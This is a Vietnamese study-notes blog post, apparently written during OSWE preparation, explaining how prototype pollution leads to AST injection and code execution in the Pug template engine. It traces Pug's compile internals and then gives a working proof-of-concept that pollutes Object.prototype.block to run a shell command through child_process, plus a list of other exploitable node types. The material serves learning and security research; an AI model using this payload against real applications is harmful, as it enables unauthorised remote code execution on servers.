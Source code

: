 # AST Injection

<h1>Chỉ là note lại những gì đã học được</h1>
<p align="center">
<a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fn00b-bot.com%2Fast-injection%2F&count_bg=%2379C83D&title_bg=%23555555&icon=&icon_color=%23E7E7E7&title=hits&edge_flat=false"/></a>
</p>
<!--more-->
Trong khi đang speedrun OSWE đến những chương cuối của OSWE thì tôi gặp dạng bài Prototype Pollution (dạng bài mà tôi trước giờ chỉ copy & paste payload như 1 thằng n00b , anyway bây giờ vẫn là 1 thằng n00b) và nếu muốn rõ về cách payload hoạt động như thế nào thì tôi lại phải đi học Javascript. Một ngôn ngữ tôi không thích lắm vì logic ảo ma của nó nhưng biết sao giờ chẳng lẽ lại bỏ qua chương này và thế là lại phải học thôi !!

![](contrai.gif)

## AST là gì
Hiểu đơn giản AST (Abstract Syntax Tree) là cây biểu diễn cấu trúc cú pháp của mã nguồn của một 
ngôn ngữ nhất định ( [Chi tiết](https://www.twilio.com/blog/abstract-syntax-trees) )
![](ast.png)
AST được sử dụng thường xuyên trong JS ví dụ như: template engines, typescript, ... ( tôi cũng không rõ dùng ở typescript chỗ nào vì đọc nó bảo thế thì list nhìn cho nó dài thôi 🙃). Trong bài này thì ta tập trung vào template engines. Flow chung cho template engines như ảnh dưới đây:
![](template.jpg)

## Pug Template Engines
Trong bàhi này ta sẽ đi vào cụ thể một template engines đó là Pug vì đây là một trong nững template engines khá phổ biến của JS. Flow của Pug như sau:
![](pugast.jpg)
Đầu tiên chúng ta xem cách khao báo để tạo ra một template.
```
const pug = require('pug');

// Compile the source code
const compiledFunction = pug.compileFile('template.pug');

// Render a set of data
console.log(compiledFunction({
  name: 'Timothy'
}));
// "<p>Timothy's Pug source code!</p>"

// Render another set of data
console.log(compiledFunction({
  name: 'Forbes'
}));
// "<p>Forbes's Pug source code!</p>"
```
Ở đây nhận tham số đầu vào là một file có chứa các cú pháp của Pug. Sau khi xem xét qua hàm thì tôi tóm gọn lại là flow như sau **compileFile => handleTemplateCache => compile** nên chúng ta sẽ bắt đầu từ hàm compile(/pug/lib/index.js).

Trong hàm **compile** sẽ gọi đến hàm **compileBody** (hàm này trả về 1 object có thuộc tính *body* chứa code JS được tạo ra)
```
function compileBody(str, options) {
...
  var ast = load.string(str, { //magic })
...
  return {body: js, dependencies: dependencies};
}
```
Tiếp tục gọi đến hàm **load** và 1 cách magic ta có được giá trị AST. Sau khi có AST thì nó được truyền vào hàm **generateCode** (như cái tên của nó hàm này trả về code JS được tạo bởi AST)
```
var js = (findReplacementFunc(plugins, 'generateCode') || generateCode)(ast, {
    pretty: options.pretty,
    compileDebug: options.compileDebug,
    doctype: options.doctype,
    inlineRuntimeFunctions: options.inlineRuntimeFunctions,
    globals: options.globals,
    self: options.self,
    includeSources: options.includeSources ? debug_sources : false,
    templateName: options.templateName,
  });
```
Lần mò vào hàm **generateCode** thì hàm này tạo ra một đối tượng **Compiler** và gọi đến phương thức **compile**
```
function generateCode(ast, options) {
  return new Compiler(ast, options).compile();
}
=>
  compile: function() {
...
    this.visit(this.node); // code được gen và đẩy vào buff ở đây
...
```
Từ đây tất cả logic tạo code js từ AST đều ở đây.Ta sẽ phân tích 1 ví dụ như sau: 
```
const pug = require('pug');
compiledFunction = pug.compile("nothing",{debug:true})
```
Bây giờ giá trị của AST sẽ là:

![](astvalue.png)

Flow cơ bản của quá trình này là 

```
 visit: function(node, parent) {
    var debug = this.debug;

    if (!node) { 
        ... 
    }

    if (debug && node.debug !== false && node.type !== 'Block') {
      if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
          js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
      }
    }

    if (!this['visit' + node.type]) { // Kiểm tra valid type của node
    ...
    }

    this.visitNode(node); // gọi đến hàm gen code với các type tương ứng
  }
```
Một số hàm gen code với các type
```
  visitText: function(text) {
    this.buffer(text.val);
  }
-------------------------------------------------------
  visitComment: function(comment) {
    if (!comment.buffer) return;
    if (this.pp) this.prettyIndent(1, true);
    this.buffer('<!--' + comment.val + '-->');
  }
-------------------------------------------------------
  visitCode: function(code) {
    // Wrap code blocks with {}.
    // we only wrap unbuffered code blocks ATM
    // since they are usually flow control

    // Buffer code
    if (code.buffer) {
      var val = code.val.trim();
      val = 'null == (pug_interp = ' + val + ') ? "" : pug_interp';
      if (code.mustEscape !== false)
        val = this.runtime('escape') + '(' + val + ')';
      this.bufferExpression(val);
    } else {
      this.buf.push(code.val);
    }

    // Block support
    if (code.block) {
      if (!code.buffer) this.buf.push('{');
      this.visit(code.block, code);
      if (!code.buffer) this.buf.push('}');
    }
  },
 
```

## Exp
Payload Prototype Injection
```
const pug = require('pug');
Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
pug.compile('h1= msg', {debug:true});
```
Template Function được trả về đã được injection
```
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
      var locals_for_with = (locals || {});
      
      (function (console, msg, process) {
        ;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E";
  ;pug_debug_line = 1;
  pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));
  ;pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
  pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
      }.call(this, "console" in locals_for_with ?
          locals_for_with.console :
          typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
          locals_for_with.msg :
          typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
          locals_for_with.process :
          typeof process !== 'undefined' ? process : undefined));
      ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Lúc này trong đầu mình có câu hỏi tại sao lại là type Text chứ không phải các type khác và liệu có type nào còn có thể khai thác được không.
Sau 1 hồi debug thì mình tìm ra được các type có thể lợi dụng cần phải thỏa mãn 2 điều kiện:
* Có hàm visit*Type* (visitCode, visitTag, ..)
* Thuộc các case sau để tránh gọi đến hàm walkAST 1 lần nữa và mình tìm thêm được 1 số type hợp lệ.
```
    case 'Attrs':
    case 'BlockComment': // work
    case 'Comment': // work
    case 'Doctype': // work
    case 'IncludeFilter':
    case 'MixinBlock': // work
    case 'YieldBlock': // work 
    case 'Text': // 
      break;
```
Liệu payload trên có hoạt động với mọi template không? => Câu trả lời là không nếu template không tham chiếu đến giá trị nhận từ argument.( điều này khó xảy ra vì nếu không tham chiếu đến đến các biến được truyền vào thì đã không sử dụng template từ ban đầu)
Ví dụ về một template mà payload trên không hoạt động.
```
pug.compile('h1', {debug:true})
----------------------------------
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E\u003C\u002Fh1\u003E";} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Tuy nhiên mình phát hiện ngay cả trong trường hợp trên, ta vẫn có thể khai thác được cũng bằng Prototype Pollution và mình để tự bạn tìm ra câu trả lời cho trường hợp trên. (dễ quá nó chán lắm 😂😂)
![](tem.png)
